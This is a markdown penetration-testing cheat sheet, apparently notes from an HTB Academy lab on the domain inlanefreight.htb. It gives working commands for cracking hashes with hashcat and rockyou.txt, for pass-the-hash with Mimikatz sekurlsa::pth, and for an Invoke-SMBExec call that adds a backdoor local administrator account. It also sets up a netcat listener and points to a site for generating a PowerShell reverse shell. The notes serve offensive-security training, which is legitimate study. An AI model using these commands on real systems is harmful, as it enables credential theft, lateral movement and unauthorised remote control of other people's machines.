 #### Hashcat - Cracking Unshadowed Hashes
```Shell
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

#### Hashcat - Cracking MD5 Hashes
```Shell
cat md5-hashes.list
```

```Shell
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```


## Pass-the-Hash - Windows

#### Pass-the-Hash from Windows Using Mimikatz
```cmd.exe
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
`/user` - The user name we want to impersonate
`/rc4` or `/NTLM` - NTLM hash of the user's password
`/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (`.`)
`/run` - The program we want to run with the user's context (if not specified, it will launch `cmd.exe`)

*Now we can use cmd.exe to execute commands in the user's context*

### Pass the Hash with PowerShell Invoke-TheHash (Windows)

#### Invoke-TheHash with SMB
```PowerShell
cd C:\tools\Invoke-TheHash\
```

```PowerShell
Import-Module .\Invoke-TheHash.psd1
```

```PowerShell
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

#### Netcat Listener
```PowerShell
.\nc.exe -lvnp 8001
```

#### Create a simple reverse shell for PowerShell using https://www.revshells.com/
![[Pasted image 20230305140313.png]]
Set our IP `172.16.1.5` and port `8001`, and select the option `PowerShell #3 (Base64)`
